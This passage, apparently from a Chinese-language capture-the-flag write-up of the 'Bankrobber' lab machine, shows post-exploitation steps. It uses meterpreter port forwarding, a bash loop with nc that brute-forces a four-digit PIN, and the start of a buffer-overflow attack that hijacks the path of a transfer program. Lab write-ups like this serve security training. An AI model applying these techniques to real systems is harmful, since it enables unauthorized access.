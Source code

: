 得到meter shell

![image-20200927143326634]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143326634.png)

利用meterpreter的快速命令，方便的进行端口转发，把目标910转到kali910

```bash
meterpreter > portfwd add -l 910 -p 910 -r 127.0.0.1
```

现在

对kali的910端口进行测试，注意使用nv不是nvlp

```bash
$ nc -nv 127.0.0.1 910
```

![image-20200927143543789]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143543789.png)

需要4位pin才能进入。

返回查找目标机器

无果

查询一番后，尝试使用bash脚本进行暴力破解的方法

```bash
$ for i in {0..9}{0..9}{0..9}{0..9}; do echo $i; echo $i | nc -nv 127.0.0.1 910; done
```

![image-20200927143836543]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143836543.png)

![image-20200927143953604]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143953604.png)

`0021`

重新连接

![image-20200927144034243]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927144034243.png)



提示会执行transfer.exe

![image-20200927145456018]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927145456018.png)

反复测试，发现这是一个可视的BOF，当推入了足够多的字符后，会发生越界，新的信息将被推入转换工具的位置。

因为会执行转换工具，所以只要推入我们想要执行的程序的路径，即可激活我们的payload

![image-20200927145746041]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927145746041.png)

让我们测试一下可以输入多长，从而得知，我们应该在payload之前推入多少个字母

msf制作字符串

```bash
$ msf-pattern_create -l 50
```
